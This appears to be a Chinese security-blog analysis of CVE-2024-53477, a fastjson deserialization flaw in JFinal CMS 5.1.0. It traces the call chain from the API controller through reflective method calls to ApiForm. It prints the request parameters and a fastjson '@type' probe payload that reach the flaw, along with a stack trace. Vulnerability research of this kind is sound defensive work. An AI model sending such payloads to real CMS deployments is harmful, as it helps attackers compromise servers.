# JFinal CMS 5.1.0 命令执行漏洞分析(CVE-2024-53477)-先知社区

> **来源**: https://xz.aliyun.com/news/16012  
> **文章ID**: 16012

---

# 通告



# 漏洞分析

根据漏洞通过获取到两个信息

* 反序列化漏洞
* 漏洞文件ApiForm.java

当前文件查看`readObject`函数，并没有发现



在分析文件是可以到导入包使用了`fastjson`



看一下maven版本



fastjson1.2.62存在反序列化漏洞

到此大概知道了该项的反序列化漏洞是**fastjson反序列化漏洞**



逆向追踪发现调用链到`ApiV100Logic`



寻找**Controller**入口点



继续往下寻址可以看到接口是通过反射调用的



继续分析查看是否可以创建`ApiV100Logic`对象

跟进到ApiUtils对象中，发现version=1.0.0可以创建`ApiV100Logic`对象



根据`invokeMethod`方法，可以看到方法是可控的，那么连贯到逆向的调用链上



目前为止完整的链已经分析出来了

* version=1.0.0
* method=[article|folders|pageArticle|pageArticleSite]
* p=[fastjson1.2.62payload]

```
version=1.0.0&method=article&p={"@type":"java.net.Inet4Address","val":"127.0.0.1:8888"}

```

动态调用链如下

```
getParams:162, ApiForm (com.jflyfox.api.form)
get:126, ApiForm (com.jflyfox.api.form)
getInt:114, ApiForm (com.jflyfox.api.form)
article:49, ApiV100Logic (com.jflyfox.api.service.impl)
4 hidden frames
invokeMethod:88, ReflectionUtils (com.jflyfox.util)
action:71, ApiService (com.jflyfox.api.service)
action:58, ApiController (com.jflyfox.api.controller)
5 hidden frames
intercept:68, ApiInterceptor (com.jflyfox.api.interceptor)
1 hidden frame
intercept:68, CommonInterceptor (com.jflyfox.component.interceptor)
1 hidden frame
intercept:48, SiteInterceptor (com.jflyfox.component.interceptor)
1 hidden frame
intercept:78, UserInterceptor (com.jflyfox.system.user)
1 hidden frame
intercept:44, UpdateCacheInterceptor (com.jflyfox.component.interceptor)
1 hidden frame
intercept:33, PageViewInterceptor (com.jflyfox.component.interceptor)
1 hidden frame
intercept:28, UserKeyInterceptor (com.jflyfox.component.interceptor)
1 hidden frame
intercept:26, JflyfoxInterceptor (com.jflyfox.jfinal.component.interceptor)
1 hidden frame
intercept:48, SessionAttrInterceptor (com.jflyfox.jfinal.component.interceptor)
3 hidden frames
intercept:38, ExceptionInterceptor (com.jflyfox.jfinal.component.interceptor)
2 hidden frames
handle:53, CurrentPathHandler (com.jflyfox.jfinal.component.handler)
1 hidden frame
handle:48, BasePathHandler (com.jflyfox.jfinal.component.handler)
handle:48, HtmlHandler (com.jflyfox.jfinal.component.handler)
13 hidden frames

```



新手韭菜，大佬勿喷
